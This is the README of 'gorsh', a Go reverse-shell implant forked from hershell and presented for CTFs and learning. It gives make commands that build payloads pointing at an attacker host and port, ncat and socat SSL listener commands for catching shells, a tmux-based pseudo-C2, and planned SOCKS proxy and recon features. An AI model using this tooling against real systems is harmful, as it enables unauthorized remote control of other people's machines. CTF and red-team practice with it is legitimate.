 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/AndZ567.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* Download files with HTTP on all platform
* Download files with SMB on all windows
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

Roadmap:

- [ ] Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)
- [ ] Recon module for analyzing things like tasks, services, and host-based protections
- [ ] Dotnet integration so `shell` drops into a Runspace with System.Management.Automation. 
      Bacially PowerShell without PowerShell.


## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

To simplify things, read the provided Makefile. You can set the following environment variables:

- `GOOS`: the target OS
- `GOARCH`: the target architecture
- `LHOST`: the attacker IP or domain name
- `LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

## Catching the shell

The `local/start.sh` kicks off a tmux session and creates new windows on every new connection.
Feed it a port number to listen on and an `&` to send it to the background, if you'd like. 

```sh
cd local
./start.sh 443 &

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught with:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the gorsh shell.
Type `help` to show what commands are supported.

## Credits

Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`

Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
